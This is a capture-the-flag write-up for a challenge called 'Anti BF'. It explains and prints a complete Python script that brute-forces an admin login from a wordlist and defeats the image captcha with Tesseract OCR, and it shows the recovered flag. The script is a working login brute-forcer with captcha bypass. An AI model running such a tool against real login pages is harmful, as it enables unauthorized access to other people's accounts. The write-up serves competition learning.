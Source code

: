 # Anti BF

```
A strange looking person is coming at you with a bright grin 
on his face. Interested, you ask him what's going on. He then 
says that he just implemented an anti-bruteforce on his
website's login page, and that there is no way for you to 
break it.

Prove him that his system is not that secure by login into his 
website.
```

Level : Medium\
Author : Mizu

## Write up
Programming language : Python 🐍

For this challenge, we need to login into his website by using the password list gived by the sweet owner.

![Main page](./images/site.png)

The logging page require a simple captcha to secure the logging form and prevent the bruteforce. 
>*Big mistake to use this captcha ahah!*

![Login page](./images/login.png)

Several problems we got :
* Submit the form
* Analyze the captcha
* Input passwords from the list

To take care about the form we are going to use the module `requests` of python. 

For this challenge we have to scrap the site and send the data after, to perform this we need a session. 

```python
with requests.Session() as s:
```

Now we can start our script with a scrapping. I use the same cookies for each requests.

```python
jar = requests.cookies.RequestsCookieJar()
jar.set('session', '4d299fd8-871f-4b06-8086-ef26ba096ad3')

site = s.get(url, cookies=jar)
```
We got the site in the variable `site`, but it is a bunch of information and we just want the captcha. So, we are going to use `BeautifulSoup` to find our captcha.

After parse the code, and find the captcha, we see that is a picture encoded in **base64**. Cool, python got a module call `base64` to manage **decode/encode base64**. Just remember the image is encoded in base64, we will use it after.

We have to take care of the captcha, I found a software call `Tesseract OCR` https://github.com/tesseract-ocr/tesseract that recognize text in a picture, that perfect for our challenge! Moreover he have a python implementation with `pytesseract`.

Inform to the module, where is installed our software on the computer : 
```python
pytesseract.pytesseract.tesseract_cmd = "..\\Tesseract\\tesseract.exe"
```
Tesseract need a image to recognize the text, so we are going to use the module `cv2` to read our captcha input it on Tesseract to get the text. To perform this we have to save our image on our computer and after read with cv2.

To save our image, we are going to use the instance `Image` from `PIL`. Of course, our captcha is encoded in base64, remember it, so we have to decode it and read the bytes by using `BytesIO` from `io` for save the image.

```python
im = Image.open(BytesIO(base64.b64decode(b64)))
im.save('captcha%s.png' % sys.argv[1], 'PNG')

img = cv2.imread('captcha%s.png' % sys.argv[1])
```
Now our captcha is decoded and saved on our computer, we just need to say to tesseract, "Hey, identify the text in this picture!"

```python
captcha = pytesseract.image_to_string(img).replace('\n', '')
```

Tada! we got our captcha in a variable `captacha`. 
>Of course, Tesseract is not 100% accurate, so because we will bruteforcing, we must pray that the password is not the one where Tesseract failed to recognize.

We just send the data by using the function `post()` of requests, and store the site content to look at if you we got an error (wrong password or captcha) or if we found the password!
```python
r = s.post(url, data={'username': 'admin', 'password': password, 'captcha': captcha}, cookies=jar)
```

We manage those errors by a set of condition and that it we repeat this process of each password from the password list

```python
if p[len(p)-1].text == 'Wrong credentials !':
    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
elif p[len(p)-1].text == 'Wrong captcha !':
    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
else:
    print(Fore.GREEN+'+ password found : %s' % (password))
```
### Tips 

1. Make our script in a infinite loop until we got the good password, because if you reach the last password and the good one was with a wrong captcha, we fail our bruteforce. So I return `True` if we got the good password to terminate the script.
```python
def main():
    while True:
        if bruteforce(): break

if __name__ == '__main__':
    main()
```

2. I also write the password in a file when we got the good one, to let the script run and go to sleep. Meanwhile, our script are going to try every password and if we get it, the script closes. 
```python 
with open('..\\flag.txt', 'w') as file:
    file.write('\n'.join((url, 'admin', password)))
```

3. I set a parameter to my script, this paramater is the number of our screen. Let me explain, If this number is odd the script lists the passwords from first to last, but if it is even then it is the opposite (from last to first). The goal is to have several terminals that run the script and enumerate the password in one direction and in the other.
```python
type = True if ((int(sys.argv[1]) + 1) % 2 == 0) else False
...
if type: password = lines[i].replace('\n', '')
else: password = lines[len(lines)-1-i].replace('\n', '')
```

Final Code : 
```python
from PIL import Image
from io import BytesIO
import cv2
import pytesseract
import requests
import base64
import sys
from bs4 import BeautifulSoup
from colorama import init, Fore, Style

# Initialize colors
init()
print(Style.BRIGHT + "HEY YOU DON'T RUN FROM THE BRUTEFORCE!")

# Inform where is our Tesseract software to pytesseract
pytesseract.pytesseract.tesseract_cmd = "C:/Users/fox25/Desktop/python/Tesseract/tesseract.exe"

url = "http://antibf.ec2qualifications.esaip-cyber.com/login"

# This permit to have several terminals that run the script and enumerate the password in one direction and in the other.
type = True if ((int(sys.argv[1]) + 1) % 2 == 0) else False

def bruteforce():
    # Make the requests in a session
    with requests.Session() as s:
        # Read the password list
        with open('wordlist.txt', 'r') as file:
            lines = file.readlines()

            for i in range(len(lines)):
                # Filter the password
                if type: password = lines[i].replace('\n', '')
                else: password = lines[len(lines)-1-i].replace('\n', '')

                # Set the session cookies
                jar = requests.cookies.RequestsCookieJar()
                jar.set('session', '4d299fd8-871f-4b06-8086-ef26ba096ad3')

                # Scrap the logging page
                site = s.get(url, cookies=jar)

                # Parse the scrap
                soup = BeautifulSoup(site.text, 'html.parser')

                # Find the captcha
                imgcaptcha = soup.findAll('img', attrs={"class": "center-img mgb-1"})

                # Filter string to get just the base64 string
                b64 = imgcaptcha[0]['src'].replace('data:image/png;base64, ', '').encode()

                # Save the captcha into our computer
                im = Image.open(BytesIO(base64.b64decode(b64)))
                im.save('captcha%s.png' % sys.argv[1], 'PNG')

                # Load the picture
                img = cv2.imread('captcha%s.png' % sys.argv[1])


                # Recognize the text in the picture by using Tesseract
                captcha = pytesseract.image_to_string(img).replace('\n', '')

                # Post the datas and store the response (scrap the site another time)
                r = s.post(url, data={'username': 'admin', 'password': password, 'captcha': captcha}, cookies=jar)

                # Parse the response and find the response
                soup2 = BeautifulSoup(r.text, 'html.parser')
                p = soup2.findAll('p')
                msg = p[len(p)-1]

                # Check if the response is an error (wrong password/captcha) or the good password
                if p[len(p)-1].text == 'Wrong credentials !':
                    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
                elif p[len(p)-1].text == 'Wrong captcha !':
                    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
                else:
                    print(Fore.GREEN+'+ password found : %s' % (password))
                    with open('..\\flag.txt', 'w') as file:
                        file.write('\n'.join((url, 'admin', password)))
                    return True


def main():
    # Repeat the bruteforce until we got the good password
    while True:
        if bruteforce(): break

if __name__ == '__main__':
    main()
```
This method have a lot of issues, and sure it is not the most optimize, moreover Tesseract is not 100% accurate.\
![bruteforce.png](./images/bruteforce.png)

There is the flag :\
![flag.png](./images/flag.png)
```
R2Lille{C4pTCh4_4r3_N0t_3n0uGh}
```
